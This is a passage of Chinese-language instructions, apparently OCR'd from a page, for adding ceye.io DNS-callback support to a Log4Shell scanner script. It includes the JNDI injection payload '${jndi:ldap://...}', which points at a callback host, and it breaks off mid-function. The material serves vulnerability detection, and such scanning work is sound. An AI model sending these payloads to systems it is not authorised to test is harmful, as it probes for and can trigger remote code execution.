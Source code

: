 修改为：

```python
if args.dns_callback_provider == "interact.sh":
    dns_callback = Interactsh()
elif args.dns_callback_provider == "dnslog.cn":
    dns_callback = Dnslog()
elif args.dns_callback_provider == "ceye.io":
    # 需要提供 ceye.io 的 token 和域名
    ceye_token = "your_ceye_token"  # 替换为 ceye.io token
    ceye_domain = "your_ceye_domain"  # 替换为 ceye.io 域名
    dns_callback = Ceye(ceye_token, ceye_domain)
else:
    raise ValueError("Invalid DNS Callback provider")
```

**3. 修改 `parser.add_argument` 部分**
在 `parser.add_argument` 部分，找到 `--dns-callback-provider` 的定义（大约在第 150 行），将其修改为：

```python
parser.add_argument("--dns-callback-provider",
                    dest="dns_callback_provider",
                    help="DNS Callback provider (Options: dnslog.cn, interact.sh, ceye.io) - [Default: interact.sh].",
                    default="interact.sh",
                    action='store')
```

**4. 修改 `scan_url()` 函数**
在 `scan_url()` 函数中，确保生成的 payload 使用 `ceye.io` 的域名。找到以下代码：

```python
payload = '${jndi:ldap://%s.%s/%s}' % (parsed_url["host"], callback_host, random_string)
```

确保 `callback_host` 是 `ceye.io` 的域名。

**修改后的代码 :**
```python
class Ceye:
    def __init__(self, token, domain):
        self.token = token
        self.domain = domain
        self.session = requests.Session()
        self.session.proxies = proxies

    def pull_logs(self):
        url = f"http://api.ceye.io/v1/records?token={self.token}&type=dns"
        response = self.session.get(url, timeout=30)
        if response.status_code == 200:
            return response.json().get("data", [])
        return []

def main():
    urls = []
    if args.url:
        urls.append(args.url)
    if args.usedlist:
        with open(args.usedlist, "r") as f:
            for i in f.readlines():
                i = i.strip()
                if i == "" or i.startswith("#"):
                    continue
                urls.append(i)

    dns_callback_host = ""
    if args.custom_dns_callback_host:
```